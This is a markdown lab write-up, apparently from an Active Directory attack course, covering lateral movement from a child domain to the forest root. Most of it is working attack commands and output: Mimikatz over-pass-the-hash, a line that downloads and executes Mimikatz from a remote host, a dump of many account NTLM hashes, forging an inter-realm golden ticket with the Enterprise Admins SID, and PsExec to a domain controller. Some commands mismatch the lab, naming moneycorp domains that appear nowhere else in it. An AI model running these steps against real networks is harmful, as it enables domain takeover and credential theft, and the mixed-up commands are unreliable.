





# Lateral Movement 2 - Child DC

- [Lateral Movement 2 - Child DC](#lateral-movement-2---child-dc)
  - [Over Pass-the-Hash to Child DC](#over-pass-the-hash-to-child-dc)
  - [Dumping the Forest Trust key](#dumping-the-forest-trust-key)
  - [Inter-realm TGT](#inter-realm-tgt)

----

## Over Pass-the-Hash to Child DC

Recall in the previous session, we have the following NTLM in the `OPERATIONS` domain:

* Krbtgt NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`
* Administrator NTLM: `5984a430e639891136c94918e6846f24`

<br/>

Use Over-pass-the-hash technique to become Administrator:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:operations.atomic.site /user:administrator /ntlm:5984a430e639891136c94918e6846f24 /run:powershell.exe"'
```

  

<br/>

Get a PS Session on the Child DC:

```
Enter-PSSession -ComputerName OPS-CHILDDC.operations.atomic.site
```

<br/>

Then import Mimikatz:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Mimikatz.ps1"))
```

  

<br/>

## Dumping the Forest Trust key

Use `Mimikatz` to dump the forest trust key:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : OPERATIONS / S-1-5-21-3757735274-1965336150-1982876978

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 5984a430e639891136c94918e6846f24

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 8e2b8effbf6735b8fb5be206cb3dfead

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 00000456 (1110)
User : sysadmin
LM   :
NTLM : 33da4461cc64d97d6766bea54d8824c7

RID  : 0000045a (1114)
User : support
LM   :
NTLM : dd8ab1ad74d9faf1900eac349c8fb3e5

RID  : 0000045b (1115)
User : homi
LM   :
NTLM : 4d32b988b70b389423886883f666ed66

RID  : 0000045c (1116)
User : iyer
LM   :
NTLM : 493483461831ba82fe193fe01653da6a

RID  : 0000045d (1117)
User : sri
LM   :
NTLM : 50e3b28275dc32db9f2e82b2e25968e2

RID  : 0000045e (1118)
User : srv-db
LM   :
NTLM : c60cc979b81b15f2e23848eac75bef16

RID  : 0000045f (1119)
User : srv-auto
LM   :
NTLM : ea06afda9cb34106ddaf747108eb1af1

RID  : 00000461 (1121)
User : adm_domain
LM   :
NTLM : 3d15cb1141d579823f8bb08f1f23e316

RID  : 00000466 (1126)
User : iisadmin
LM   :
NTLM : 7e44e374b6a9d37380d77970d8e2e2dc

RID  : 000003e8 (1000)
User : OPS-CHILDDC$
LM   :
NTLM : 3ab1547f1844b80e510a97a7031e5f4c

RID  : 00000457 (1111)
User : DB-SERVER$
LM   :
NTLM : 9d80143c32cbd216c7e7e7fff0e22c40

RID  : 00000458 (1112)
User : REPO-SERVER$
LM   :
NTLM : f3cbb96681af765b402de7b8624f8f5c

RID  : 00000459 (1113)
User : AUTOMATION-SERV$
LM   :
NTLM : c8b008446e85f2fead3be7d1cd862711

RID  : 00000c1d (3101)
User : SCIENTIST-MACHI$
LM   :
NTLM : 8d3aaa614d4742cdaeea2c7574638331

RID  : 0000044f (1103)
User : ATOMIC$
LM   :
NTLM : c121b0c32c9d5b452d37d51fa6be57c0
```

  

* Forest Trust Key: `72cc4221252de3dfd2b5446f5b8c0f10`

  

* `krbtgt` NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`

<br/>

## Inter-realm TGT

To forge inter-realm TGT, we need the following information:
- `/domain`: The current domain `operations.atomic.site`
  
- `/user`: `Administrator`
  
- `/sid`: SID of the current domain
  
  - Shown in the LSADUMP: `S-1-5-21-3757735274-1965336150-1982876978`
  
- `/sids`: SID of the Enterprise Admins Group
  
  - Use PowerView: `Get-NetForest`
  - Enterprise Admins Group = `519`
  - SID = `S-1-5-21-95921459-2896253700-3873779052-519`

  


- `/krbtgt`: The NTLM of the `krbtgt` account in the current domain
  
  - Dumped using DCSync: `8e2b8effbf6735b8fb5be206cb3dfead`


Use the following command to forge a inter-realm TGT:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-3757735274-1965336150-1982876978 /sids:S-1-5-21-95921459-2896253700-3873779052-519 /krbtgt:8e2b8effbf6735b8fb5be206cb3dfead /ticket:C:\Users\Public\forged.kirbi"'
```

  
  

<br/>

  

<br/>

Then perform a Pass-the-Ticket:

```
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\Public\forged.kirbi"'
```

  

<br/>

Then use PsExec to get a shell on `atomic-dc.atomic.site`:

```
.\PsExec.exe \\mcorp-dc.moneycorp.local cmd.exe -accepteula
```